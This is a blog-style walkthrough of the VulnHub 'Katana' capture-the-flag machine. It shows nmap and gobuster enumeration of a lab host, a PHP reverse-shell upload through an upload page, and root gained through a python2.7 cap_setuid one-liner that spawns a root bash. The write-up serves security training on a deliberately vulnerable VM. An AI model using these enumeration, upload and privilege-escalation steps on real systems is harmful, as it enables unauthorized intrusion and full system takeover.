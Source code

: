 ```yaml
---
title: Katana - Writeup
author: Elman Alizadeh
date: 2022-05-30 15:30:00 +0800
categories: [ctf, VulnHub]
tags: [vulnhub, katana]
---
```


Today we will take a look at Vulnhub: Katana. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/vuln-katana/1.jpeg" | relative_url }})

## Network scan

```console
nmap -p- -sV -sC --open 192.168.213.83

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 89:4f:3a:54:01:f8:dc:b6:6e:e0:78:fc:60:a6:de:35 (RSA)
|   256 dd:ac:cc:4e:43:81:6b:e3:2d:f3:12:a1:3e:4b:a3:22 (ECDSA)
|_  256 cc:e6:25:c0:c6:11:9f:88:f6:c4:26:1e:de:fa:e9:8b (ED25519)
80/tcp   open  http          Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
|_http-server-header: Apache/2.4.38 (Debian)
7080/tcp open  ssl/empowerid LiteSpeed
|_http-title: Did not follow redirect to https://192.168.213.83:7080/
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-11T13:57:36
|_Not valid after:  2022-05-11T13:57:36
|_http-server-header: LiteSpeed
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
8088/tcp open  http          LiteSpeed httpd
|_http-title: Katana X
|_http-server-header: LiteSpeed
8715/tcp open  http          nginx 1.14.2
|_http-title: 401 Authorization Required
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-server-header: nginx/1.14.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gobuster

After scanning all the ports, I found something like this.

Command: gobuster dir -u http://192.168.213.83:8088 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .html,.php,.txt

```console
/index.html           (Status: 200) [Size: 655]
/cgi-bin              (Status: 301) [Size: 1260] [--> http://192.168.213.83:8088/cgi-bin/]
/img                  (Status: 301) [Size: 1260] [--> http://192.168.213.83:8088/img/]    
/docs                 (Status: 301) [Size: 1260] [--> http://192.168.213.83:8088/docs/]   
/upload.html          (Status: 200) [Size: 6480]                                          
/upload.php           (Status: 200) [Size: 1800]
```

## Reverse Shell

http://192.168.213.83:8088/upload.html

![Desktop View]({{ "/assets/img/vuln-katana/2.png" | relative_url }})

I couldn’t get the shell when I wrote the extension. So I checked the extension one by one at the ports.

http://192.168.213.83:8715/katana_reverse.php


![Desktop View]({{ "/assets/img/vuln-katana/3.png" | relative_url }})

After logging in

```console
Command: script /dev/null -c bash

Command: export TERM=xterm

Ctrl+z

Command: reset
```

## Root

Command: getcap -r / 2>/dev/null

```console
/usr/bin/python2.7 = cap_setuid+ep
```

[Linux_Priv](https://0x1.gitlab.io/exploit/Linux-Privilege-Escalation/)

Command: /usr/bin/python2.7 -c ‘import os; os.setuid(0); os.system(“/bin/bash”);’

![Desktop View]({{ "/assets/img/vuln-katana/4.png" | relative_url }})

### And now we are the root

![Desktop View]({{ "/assets/img/vuln-katana/5.gif" | relative_url }})
